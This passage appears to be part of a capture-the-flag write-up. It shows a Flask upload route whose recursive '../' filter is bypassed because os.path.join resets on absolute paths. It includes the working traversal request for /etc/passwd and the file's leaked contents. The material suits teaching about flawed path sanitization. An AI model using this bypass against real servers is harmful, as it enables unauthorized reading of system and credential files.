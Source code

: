 > dev01 Soulless_Developer#2022

## Reading server files

Still it is a lot of word, especially with an LFI just out of reach:

```python
@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

The function `get_file_name` performs a little sanitization though:

```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")

def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
```

But `os.path.join` overwrites the first arguments when there's an absolute path:

```
GET /uploads/..//etc/passwd HTTP/1.1
```

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```
